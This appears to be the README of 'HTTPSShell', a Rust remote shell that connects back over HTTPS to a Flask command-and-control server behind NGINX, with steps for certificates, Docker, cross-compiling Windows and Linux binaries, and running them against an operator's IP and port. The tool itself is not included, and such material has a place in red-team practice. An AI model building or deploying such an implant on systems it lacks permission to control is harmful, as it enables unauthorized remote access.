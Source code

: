# HTTPSShell

Tested docker build in kali.

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```

Setup:
----
1. Run docker build in directory with Dockerfile:
```
docker build .
```
2. Run container (use -v flag to mount directories as desired):
```
docker run -di [imageID]
```
3. Enter container:
```
docker exec -ti [containerID] /bin/bash
```
4. From within container, Clone repo:
```
git clone https://github.com/Business1sg00d/RustHTTPSShell.git /opt/RustHTTPSShell
cd /opt/RustHTTPSShell
```
5. From within container, add windows support:
```
rustup target add x86_64-pc-windows-gnu
```

Building from within container:
-----
When building for windows use:
```
cargo build --target x86_64-pc-windows-gnu --bin main_windows
```

For linux use:
```
cargo build
```

Binaries are in "target" directory from within project directory

Usage:
--
For both Windows and Linux version:
```
.\binary.exe [Your_Server_IP] [Your_Server_port}
./binary [Your_Server_IP] [Your_Server_port}
```

